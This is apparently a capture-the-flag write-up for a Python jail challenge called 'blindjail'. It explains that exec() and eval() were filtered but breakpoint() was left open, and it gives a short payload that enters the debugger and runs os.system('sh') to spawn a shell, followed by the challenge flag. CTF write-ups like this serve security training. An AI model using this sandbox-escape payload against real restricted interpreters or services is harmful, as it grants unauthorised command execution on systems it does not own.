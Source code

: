 # blindjail
> There is no escape, sometimes going in blind makes other attributes stronger.

## About the Challenge
We were given a server to connect where we can execute a python code (Classic PyJail) but there are some filter like we can't use `exec()` or `eval()` function 

![Alt text](images/preview.png)

## How to Solve?
I tried several function and luckily the program didn't blacklist `breakpoint()` function. So the final payload will be like this

```python
breakpoint()
...
import os
os.system("sh")
```
![Alt text](images/flag.png)

```
nitectf{sl1d3_0ver_th3se_4ttribut3s}
```